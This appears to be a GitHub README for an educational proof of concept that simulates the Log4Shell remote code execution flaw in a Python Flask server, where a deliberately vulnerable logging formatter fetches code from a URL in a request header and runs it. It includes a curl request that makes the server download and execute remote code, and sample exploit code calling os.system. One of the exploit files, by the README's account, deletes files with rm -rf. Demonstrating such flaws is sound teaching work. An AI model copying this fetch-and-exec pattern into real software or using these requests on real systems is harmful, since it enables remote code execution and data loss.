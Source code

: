 # py4jshell
Simulating Log4j Remote Code Execution (RCE) [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) vulnerability in a flask web server using python's logging library with custom formatter that simulates lookup substitution on URLs. This repository is a POC of how Log4j remote code execution vulnerability actually works, but written in python. Instead of using `JNDI+LDAP`, `HTTP` protocol is used for exploit code lookup.

**Note 1:** Do not use this in production, this is a demonstration of RCE.

**Note 2** This is not a vulnerability in Python's logging library. We are writing a custom formatter for the logging library that simulates the inherit behaviour of Log4J library.

**Note 3:** The exploit code exploit/exploit2.py executes rm -rf . in the server's present working directory, if you want to try this, make sure you are running it inside a container and not directly on the host, as it may result in data loss.

### How this works?
1. A GET request is made to the flask web server (`/hello`) from a HTTP client.
2. Flask framework invokes the logger to log this request, including the header.
3. Since we have patched the python's logging library to use our own formatter, the `format()` method implemented by our formatter `ShellishFormatter` is invoked.
4. The formatter performs original formatting and invokes `check_substitute_pattern` function which scans the string to be logged for `${{.+?}}` pattern.
5. If found, the URL inside this pattern is extracted, parsed and a HTTP GET request is made to the remote code hosting server pointed by the URL to download the exploit python code.
6. A runnable python object is constructed from the downloaded code dynamically using `exec` and `eval` interpreter methods. This object contains the executable exploit code.
7. Since we need to substitute the `${{.+?}}` with the stringified result, we call `str()` over the object which calls `__str__()` method of the exploit object.
8. Anything that is written inside the `__str__()` method is blindly executed unless it returns a string at the end.

### Try it yourself:
#### 1. Build the docker image:
First, built the docker image of the flask server using the provided Dockerfile.
```
docker build . -t py4jshell
```

#### 2. Host the exploit code locally:
The directory `exploit/` contains two sample python exploit codes. You can host these exploits anywhere on the internet, you can also do it locally by running a static HTTP server from that directory, as:
```
cd exploit
python -m http.server 8080
```
If everything is alright, you should see this message:
```
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

#### 3. Start the container:
You can just open another terminal or anywhere in your local network, just start the server as follows:
```
docker run --rm -p 5000:5000 py4jshell
```
The container should start the web server, you should see the following message:
```
* Serving Flask app 'app' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://172.17.0.2:5000/ (Press CTRL+C to quit)
```

#### 4. Make get requests:
You can use curl or any other tool to make the GET request. Check `exploit1.sh` and `exploit2.sh` files.
You can also formulate your own request as follows:

```sh
HEADER_VAL="\${{http://192.168.0.104:8080/exploit1.py}}"

curl -X GET -H "Agent: ${HEADER_VAL}" \
    http://localhost:5000/hello
```
Note the header value for `Agent` field, it contains a URL from where the exploit code is downloaded.
If everything works fine, the server will download and execute the exploit code without complaining. You should see the output as below:
```
172.17.0.1 - - [17/Dec/2021 12:56:25] "GET /hello HTTP/1.1" 200 -
it worked!
Headers: Host: localhost:5000
User-Agent: curl/7.74.0
Accept: */*
Agent: Substituted text


172.17.0.1 - - [17/Dec/2021 12:56:44] "GET /hello HTTP/1.1" 200 -
```
As you an see there is `it worked!` message on the `stdout`, which is actually from the exploit code which runs `os.system("echo it worked!")`, check `exploit/exploit1.py`. Also, if you see the logs of the static http server which hosted the exploit code files, you should see:
```
172.17.0.2 - - [17/Dec/2021 18:26:44] "GET /exploit1.py HTTP/1.1" 200 -
```
Which indicates that there was a hit from the container to the static server to download the exploit code to perform remote code execution.

#### Passing parameters:
The sample formatter also supports passing custom parameters as arguments to the instantiated remote object, to pass parameters, you can encode them as GET URL parameters:
```
HEADER_VAL="\${{http://192.168.0.104:8080/exploit2.py?name=Prasanna}}"
```

Then in the exploit code you can receive them in the constructor:
```python3
class LogSubstitutor:
    def __init__(self, **kwargs) -> None:
        # do creepy things here.
        os.system("echo from constructor")
        self.name = kwargs.get("name", "NoName")

    def __str__(self) -> str:
        # the loader will call str(object) during substitution
        # so this method must written a string and we can do other
        # creepy things here as well.
        # LoL! don't run this on the host machine.
        os.system("echo rm -rf .")
        return "Hi {}".format(self.name)
```

### Notes:
1. This project is for educational purposes, it can be used to understand Remote code execution and how Log4j shell actually works and what makes it so dangerous.
2. This has nothing to do with python's original logging library as it does not perform any string substitutions by downloading and executing code from remote URLs, this functionality is purely implemented inside the custom formatter which is actually vulnerable.
3. Log4j uses JNDI + LDAP which is the way of performing lookups on remote Java objects. This method has been in practice since 1990 and has been used by lot of applications to solve some usecases. The actual LDAP + JNDI might not work exactly as how we have written the functionality in this repo, this is just a simulation.
4. Every interpreted language can be tricked into attacks like this if they expose some or the other way of dynamic code execution using `eval`, which is most common in many interpreted languages. It is left to the developers to write better code and make the world safer.
